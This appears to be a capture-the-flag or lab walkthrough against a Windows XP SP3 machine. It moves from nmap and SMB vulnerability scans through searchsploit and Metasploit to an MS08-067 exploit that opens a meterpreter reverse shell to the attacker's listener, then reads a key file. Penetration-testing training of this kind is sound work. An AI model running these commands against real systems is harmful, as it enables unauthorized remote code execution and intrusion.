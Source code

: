 Started off scanning - 
Sudo nmap -sS 10.14.1.83

Starting Nmap 7.92 ( https://nmap.org ) at 2023-07-25 19:55 EDT
Nmap scan report for 10.14.1.83
Host is up (0.15s latency).
Not shown: 996 closed tcp ports (reset)
PORT     STATE SERVICE
135/tcp  open  msrpc
139/tcp  open  netbios-ssn
445/tcp  open  microsoft-ds
3389/tcp open  ms-wbt-server

Nmap done: 1 IP address (1 host up) scanned in 2.56 seconds


sudo nmap -sV -O 10.14.1.83
Host is up (0.19s latency).
Not shown: 996 closed tcp ports (reset)
PORT     STATE SERVICE       VERSION
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds  Microsoft Windows XP microsoft-ds
3389/tcp open  ms-wbt-server Microsoft Terminal Services
Device type: general purpose
Running: Microsoft Windows XP
OS CPE: cpe:/o:microsoft:windows_xp::sp3
OS details: Microsoft Windows XP SP3
Network Distance: 2 hops
Service Info: OSs: Windows, Windows XP; CPE: cpe:/o:microsoft:windows, cpe:/o:microsoft:windows_xp

Determined RPC, RDP, and SMB were open
Using Microsoft Windows XP SP3

This suggests to me that the latest SMB version supported is 1.0/1.1

There are a number of exploits for Windows XP; lets scan for SMB vulnerabilities:
sudo nmap -p 139,445 --script=smb-vuln* 10.14.1.83
Starting Nmap 7.92 ( https://nmap.org ) at 2023-07-25 20:06 EDT
Nmap scan report for 10.14.1.83
Host is up (0.24s latency).

PORT    STATE SERVICE
139/tcp open  netbios-ssn
445/tcp open  microsoft-ds

Host script results:
|_smb-vuln-ms10-054: false
| smb-vuln-ms08-067: 
|   VULNERABLE:
|   Microsoft Windows system vulnerable to remote code execution (MS08-067)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2008-4250
|           The Server service in Microsoft Windows 2000 SP4, XP SP2 and SP3, Server 2003 SP1 and SP2,
|           Vista Gold and SP1, Server 2008, and 7 Pre-Beta allows remote attackers to execute arbitrary
|           code via a crafted RPC request that triggers the overflow during path canonicalization.
|           
|     Disclosure date: 2008-10-23
|     References:
|       https://technet.microsoft.com/en-us/library/security/ms08-067.aspx
|_      https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2008-4250
|_smb-vuln-ms10-061: ERROR: Script execution failed (use -d to debug)
| smb-vuln-ms17-010: 
|   VULNERABLE:
|   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2017-0143
|     Risk factor: HIGH
|       A critical remote code execution vulnerability exists in Microsoft SMBv1
|        servers (ms17-010).
|           
|     Disclosure date: 2017-03-14
|     References:
|       https://technet.microsoft.com/en-us/library/security/ms17-010.aspx
|       https://blogs.technet.microsoft.com/msrc/2017/05/12/customer-guidance-for-wannacrypt-attacks/
|_      https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0143

Nmap done: 1 IP address (1 host up) scanned in 6.71 seconds



So we know it is vulnerable to :
smb-vuln-ms08-067
smb-vuln-ms17-010

Checking searchsploit for these:
searchsploit ms17-010                                                                     130 ⨯
------------------------------------------------------------------ ---------------------------------
 Exploit Title                                                    |  Path
------------------------------------------------------------------ ---------------------------------
Microsoft Windows - 'EternalRomance'/'EternalSynergy'/'EternalCha | windows/remote/43970.rb
**Microsoft Windows - SMB Remote Code Execution Scanner (MS17-010)  | windows/dos/41891.rb**
Microsoft Windows 7/2008 R2 - 'EternalBlue' SMB Remote Code Execu | windows/remote/42031.py
Microsoft Windows 7/8.1/2008 R2/2012 R2/2016 R2 - 'EternalBlue' S | windows/remote/42315.py
Microsoft Windows 8/8.1/2012 R2 (x64) - 'EternalBlue' SMB Remote  | windows_x86-64/remote/42030.py
Microsoft Windows Server 2008 R2 (x64) - 'SrvOs2FeaToNt' SMB Remo | windows_x86-64/remote/41987.py


searchsploit ms08-067
------------------------------------------------------------------ ---------------------------------
 Exploit Title                                                    |  Path
------------------------------------------------------------------ ---------------------------------
Microsoft Windows - 'NetAPI32.dll' Code Execution (Python) (MS08- | windows/remote/40279.py
Microsoft Windows Server - Code Execution (MS08-067)              | windows/remote/7104.c
Microsoft Windows Server - Code Execution (PoC) (MS08-067)        | windows/dos/6824.txt
Microsoft Windows Server - Service Relative Path Stack Corruption | windows/remote/16362.rb
Microsoft Windows Server - Universal Code Execution (MS08-067)    | windows/remote/6841.txt
Microsoft Windows Server 2000/2003 - Code Execution (MS08-067)    | windows/remote/7132.py
------------------------------------------------------------------ ---------------------------------


Load up Metasploit
Msfconsole
msf6 > search ms17-010

Matching Modules
================

   #  Name                                      Disclosure Date  Rank     Check  Description
   -  ----                                      ---------------  ----     -----  -----------
   0  exploit/windows/smb/ms17_010_eternalblue  2017-03-14       average  Yes    MS17-010 EternalBlue SMB Remote Windows Kernel Pool Corruption
   1  exploit/windows/smb/ms17_010_psexec       2017-03-14       normal   Yes    MS17-010 EternalRomance/EternalSynergy/EternalChampion SMB Remote Windows Code Execution
   2  auxiliary/admin/smb/ms17_010_command      2017-03-14       normal   No     MS17-010 EternalRomance/EternalSynergy/EternalChampion SMB Remote Windows Command Execution
   3  auxiliary/scanner/smb/smb_ms17_010                         normal   No     MS17-010 SMB RCE Detection
   4  exploit/windows/smb/smb_doublepulsar_rce  2017-04-14       great    Yes    SMB DOUBLEPULSAR Remote Code Execution

Use 4

msf6 exploit(windows/smb/smb_doublepulsar_rce) > show options

Module options (exploit/windows/smb/smb_doublepulsar_rce):

   Name    Current Setting  Required  Description
   ----    ---------------  --------  -----------
   RHOSTS                   yes       The target host(s), see https://github.com/rapid7/metasploit
                                      -framework/wiki/Using-Metasploit
   RPORT   445              yes       The SMB service port (TCP)


Payload options (windows/x64/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST                      yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Execute payload (x64)


msf6 exploit(windows/smb/smb_doublepulsar_rce) > set lhost ppp0
lhost => 172.16.4.1
msf6 exploit(windows/smb/smb_doublepulsar_rce) > set rhost 10.14.1.83
rhost => 10.14.1.83

msf6 exploit(windows/smb/smb_doublepulsar_rce) > exploit

[*] Started reverse TCP handler on 172.16.4.1:4444 
[*] 10.14.1.83:445 - Sending ping to DOUBLEPULSAR
[-] 10.14.1.83:445 - DOUBLEPULSAR not detected or disabled
[-] 10.14.1.83:445 - Exploit aborted due to failure: not-vulnerable: Unable to proceed without DOUBLEPULSAR
[*] Exploit completed, but no session was created.


search ms08-067

Matching Modules
================

   #  Name                                 Disclosure Date  Rank   Check  Description
   -  ----                                 ---------------  ----   -----  -----------
   0  exploit/windows/smb/ms08_067_netapi  2008-10-28       great  Yes    MS08-067 Microsoft Server Service Relative Path Stack Corruption


Interact with a module by name or index. For example info 0, use 0 or use exploit/windows/smb/ms08_067_netapi                                                                                           

msf6 > use 0
[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp
msf6 exploit(windows/smb/ms08_067_netapi) > show options

Module options (exploit/windows/smb/ms08_067_netapi):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   RHOSTS                    yes       The target host(s), see https://github.com/rapid7/metasploi
                                       t-framework/wiki/Using-Metasploit
   RPORT    445              yes       The SMB service port (TCP)
   SMBPIPE  BROWSER          yes       The pipe name to use (BROWSER, SRVSVC)


Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     172.16.4.1       yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic Targeting

msf6 exploit(windows/smb/ms08_067_netapi) > exploit

[*] Started reverse TCP handler on 172.16.4.1:4444 
[*] 10.14.1.83:445 - Automatically detecting the target...
[*] 10.14.1.83:445 - Fingerprint: Windows XP - Service Pack 3 - lang:English
[*] 10.14.1.83:445 - Selected Target: Windows XP SP3 English (AlwaysOn NX)
[*] 10.14.1.83:445 - Attempting to trigger the vulnerability...
[*] Sending stage (175174 bytes) to 10.14.1.83
[*] Meterpreter session 1 opened (172.16.4.1:4444 -> 10.14.1.83:1031 ) at 2023-07-25 20:43:38 -0400

meterpreter > getpid
Current pid: 1012

Shell

cd C:\Documents and Settings\Administrator\Desktop

C:\Documents and Settings\Administrator\Desktop>type key.txt
type key.txt
hbbja4okjkr1hamuycb

![image](https://github.com/chrisaboyd/Samples/assets/102701870/ccb158bd-343f-4c34-93f5-712d2f0e331f)
